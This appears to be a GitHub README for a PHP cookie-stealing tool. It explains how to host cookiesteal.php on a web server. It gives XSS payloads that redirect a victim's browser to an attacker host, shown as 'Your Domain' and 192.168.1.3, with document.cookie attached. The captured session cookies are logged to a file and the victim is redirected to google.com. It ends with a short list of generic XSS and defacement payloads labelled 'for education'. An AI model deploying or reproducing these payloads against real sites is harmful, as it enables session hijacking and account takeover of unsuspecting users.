 # Cookie-Stealer

### This Basic Script Let you get "Take" The Cookie of user From **HTTP** Site...

<h4>Installation</h4>

**Linux**
```
1. git clone https://github.com/mahmoudashraf1344/Cookie-Stealer.git
2. mkdir /var/www/html/cookies
3. cp Cookie-Stealer /var/www/html/cookies
4. cd /var/www/html/Cookie-Stealer

```
##### Alert **You can do what you want i just did a Directory Called **cookies** because just for Organizing my own files..**

<h2>How To Use It</h2>

1. The File Called **cookiesteal.php** has a parameter **c** the **document.cookie** is for seaching in web app doc to get us the cookie "**PHPSESSID**"
2. Example of xss inject `<script>window.location = "http://Your Domain or Localhost/cookie/cookiesteal.php?c=" + document.cookie;</script>`
3. How to inject A **Javascript** Payload in inpute? For an Example `<script>window.location = "http://192.168.1.3/cookie/cookiesteal.php?c=" + document.cookie;</script>`
4. after injected the xss payload it will take the user to `google.com` page you can change it whatever you want the original is`header("Location: http://www.google.com/");` i can change it to facebook like this `header("Location: http://www.facebook.com/");`
5. After User or "Victim" click or submit the link the cookie session will get it in `log.txt` file...


### XSS Payload For Education:->?>

```
- <script>alert(1)</script>
- <img src=x onmouseover=confirm(1)>
- <svg onload=prompt("xss")>
- ' onerror='alert(1)'
- <script>document.body.innerHTML="Hacked By Me"</script>
```
